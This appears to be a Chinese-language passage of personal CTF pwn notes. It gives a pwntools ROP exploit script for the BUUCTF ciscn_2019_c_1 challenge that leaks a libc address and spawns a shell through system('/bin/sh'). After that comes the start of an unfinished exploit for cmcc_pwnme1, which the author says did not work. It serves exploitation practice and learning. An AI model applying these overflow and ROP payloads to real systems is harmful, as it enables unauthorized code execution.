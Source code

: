 ```
sl = lambda str: p.sendline(str)
sa = lambda a,b: p.sendafter(a,b)
sla = lambda a,b: p.sendlineafter(a,b)
libc_base = lambda addr,name:addr-libc.dump(name)
go = lambda : p.interactive()

rdi=0x0000000000400c83
ret=0x00000000004006b9

ru("Input your choice!\n")
sl(b"1")
ru(b"Input your Plaintext to be encrypted\n")
sl(b"\0"+cyclic(0x50+7)+p64(rdi)+p64(got)+p64(plt)+p64(sym)+p64(ret))

p.recvuntil(b"\n")
p.recvuntil(b"\n")

via=rul2()
print(hex(via))

libc=LibcSearcher("puts",via)
libc_base=libc_base(via,"puts")

system=libc_base+0x000000000004f440
binsh=libc_base+0x1b3e9a

ru("Input your choice!\n")
sl(b"1")
ru("Input your Plaintext to be encrypted\n")
s(b"\0"+cyclic(0x57)+p64(rdi)+p64(binsh)+p64(ret)*5+p64(system))

go()
```


[[BUUCTF]PWN6——ciscn_2019_c_1_bugkuctf-pwn题pwn6-CSDN博客](https://blog.csdn.net/mcmuyanga/article/details/108224907)


### 2    cmcc_pwnme1

### 考点：scanf溢出，printf打印
![[Pasted image 20240913223838.png]]
![[Pasted image 20240913224229.png]]


收获：这一题有问题，我在运行了自己的代码和网站上所有人的代码发现是都打不通，不知道为什么。这一题放在这里。下面是我自己写的wp,但是没打通。

wp
```
from pwn import*

from LibcSearcher import LibcSearcher

def init(file1,file2,x):

    if file2:

        if x:

            return process(file1),ELF(file1),ELF(file2)

        else:

```